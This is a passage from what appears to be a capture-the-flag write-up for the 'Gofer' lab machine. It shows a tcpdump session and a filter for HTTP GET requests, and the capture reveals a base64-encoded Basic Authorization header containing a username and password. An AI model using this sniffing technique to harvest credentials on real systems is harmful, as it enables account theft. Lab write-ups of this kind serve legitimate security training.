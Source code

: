     lo    In  IP 127.0.0.1.39906 > 127.0.0.1.80: tcp 0
    lo    In  IP 127.0.0.1.80 > 127.0.0.1.39906: tcp 0
    lo    In  IP 127.0.0.1.39906 > 127.0.0.1.80: tcp 0
    lo    In  IP 127.0.0.1.42674 > 127.0.0.1.631: tcp 0
    lo    In  IP 127.0.0.1.631 > 127.0.0.1.42674: tcp 0
    ^C
    26 packets captured
    52 packets received by filter
    0 packets dropped by kernel



There are two ports contacted - someone on localhost talking to port 80,
and someone on local host talking to 631 (cups printing service).

#### GET Requests

ChatGPT helped me write this `tcpdump` command to just see GET request
data, and it works:



    jhudson@gofer:/etc/apache2$ sudo tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'
    bash: sudo: command not found
    jhudson@gofer:/etc/apache2$ tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'     
    tcpdump: data link type LINUX_SLL2
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
    14:10:01.986142 lo    In  IP 127.0.0.1.58472 > 127.0.0.1.80: Flags [P.], seq 1376021622:1376021785, ack 1661516285, win 512, options [nop,nop,TS val 3293898230 ecr 3293898230], length 163: HTTP: GET /?url=http:/
    /gofer.htb HTTP/1.1
    E....r@.@............h.PR.lvc..............
    .T...T..GET /?url=http://gofer.htb HTTP/1.1
    Host: proxy.gofer.htb
    Authorization: Basic dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=
    User-Agent: curl/7.74.0
    Accept: */*


    14:10:01.987970 lo    In  IP 127.0.0.1.58478 > 127.0.0.1.80: Flags [P.], seq 3083973505:3083973553, ack 4056441888, win 512, options [nop,nop,TS val 3293898232 ecr 3293898232], length 48: HTTP: GET / HTTP/1.1
    E..d..@.@.o..........n.P......d .....X.....
    .T...T..GET / HTTP/1.1
    Host: gofer.htb
    Accept: */*



There's two GET requests there. First to `proxy.gofer.htb` requesting
`gofer.htb`, and then to `gofer.htb`. The first one has the
`Authorization` header, which is just the base64-encoded username then
colon then password:
